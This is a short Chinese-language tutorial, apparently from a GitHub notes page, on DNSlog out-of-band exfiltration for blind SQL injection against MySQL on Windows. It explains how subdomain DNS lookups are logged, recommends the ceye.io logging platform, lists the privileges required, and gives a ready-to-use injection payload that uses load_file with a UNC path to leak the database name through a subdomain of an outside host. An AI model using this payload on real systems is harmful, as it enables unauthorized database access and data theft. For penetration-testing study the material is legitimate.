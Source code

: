 ### 原理

譬如我有一域名 `abc.com`，其对应的 IP 为 `123.123.123.123`  
DNSlog 就会记录用户请求 abc.com 的过程，解析值为 IP 地址  
除了顶级域名，像这样的次级域名：`xx.abc.com` 依然可被 DNSlog 记录！

<br>

**推荐 DNSlog 平台**

http://ceye.io

<br>

**可实现 DNSlog 的条件**

1. 具有操控数据库的 root 权限（针对 mysql）
2. 数据库可读写权限，即 secure_file_priv 值为空
3. 仅支持 windows

<br>

**为什么要用它？**

有些情况下，SQL 盲注无回显，故需要 DNSlog 来展示回显信息给我们

<br>

### 常用代码

回显注入（仅需修改六个 x 的地方为你的 identifier 即可）  
`?id=1 and if((select load_file(concat('\\\\',(select database()),'.xxxxxx.ceye.io\\abc'))),1,0) -- -`

<br>
